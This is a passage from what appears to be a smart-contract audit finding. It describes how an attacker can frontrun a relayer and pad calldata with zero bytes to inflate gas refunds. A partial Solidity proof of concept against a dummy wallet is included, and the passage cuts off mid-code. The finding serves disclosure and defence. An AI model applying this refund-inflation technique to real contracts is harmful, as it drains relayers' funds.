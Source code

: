 An attacker could manipulate the calldata to increase the refund amount while spending less gas than what is calculated by the contract. To do this, the attacker could provide calldata with zero padded bytes of arbitrary length. This would only cost 4 gas per zero byte, but the refund would be calculated as 8 gas per calldata byte. As a result, the refund amount would be higher than the gas amount spent by the relayer.

### Attack Scenario

Let’s a smart wallet user signs a transaction. Some of the relayers trying to execute this transaction and send a transaction to the `SmartAccount` contract. Then, an attacker can frontrun the transaction, changing the transaction calldata by adding the zeroes bytes at the end.

So, the original transaction has such calldata:

```sol=
abi.encodeWithSignature(RelayerManager.execute.selector, (...))
```

The modified (frontrun) transaction calldata:

```sol=
// Basically, just add zero bytes at the end
abi.encodeWithSignature(RelayerManager.execute.selector, (...)) || 0x00[]
```

### Proof of Concept

The PoC shows that the function may accept the data with redundant zeroes at the end. At the code above, an attacker send a 100\_000 meaningless zeroes bytes, that gives a `100_000 * 4 = 400_000` additional gas refund. Technically, it is possible to pass even more zero bytes.

```solidity
pragma solidity ^0.8.12;

contract DummySmartWallet {
    function execTransaction(
        Transaction memory _tx,
        uint256 batchId,
        FeeRefund memory refundInfo,
        bytes memory signatures
    ) external {
        // Do nothing, just test that data with appended zero bytes are accepted by Solidity
    }
}

contract PoC {
    address immutable smartWallet;

    constructor() {
        smartWallet = address(new DummySmartWallet());
    }

    // Successfully call with original data
    function testWithOriginalData() external {
        bytes memory txCalldata = _getOriginalTxCalldata();

        (bool success, ) = smartWallet.call(txCalldata);
        require(success);
    }

    // Successfully call with original data + padded zero bytes
    function testWithModifiedData() external {
        bytes memory originalTxCalldata = _getOriginalTxCalldata();
        bytes memory zeroBytes = new bytes(100000);

        bytes memory txCalldata = abi.encodePacked(originalTxCalldata, zeroBytes);

```